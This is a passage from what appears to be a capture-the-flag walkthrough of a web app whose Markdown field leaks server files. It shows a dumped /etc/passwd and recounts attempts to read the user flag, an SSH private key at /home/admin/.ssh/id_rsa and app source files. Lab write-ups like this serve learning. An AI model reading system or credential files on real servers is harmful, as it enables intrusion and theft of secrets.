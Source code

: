 The content of the `/etc/passwd` file was returned in the markdown field.

```html
   <label for="markdown">Markdown</label>
    <textarea required name="markdown" id="markdown" class="form-control">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
admin:x:1000:1000:admin:/home/admin:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mongodb:x:109:117::/var/lib/mongodb:/usr/sbin/nologin
</textarea>
```

I could read files on the server. But I had a hard time finding something valuable. I tried reading the user flag from the admin's home folder, but it failed. I also tried loading a private key from `/home/admin/.ssh/id_rsa`, but it was not there, or I could not read it. I tried index.js and index.html. Still nothing.

After some searching, I remembered that I had an error with a stack trace earlier. I tried posting to `/articles`, and got the error again.

```http
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 564
Date: Sat, 07 May 2022 20:20:48 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
```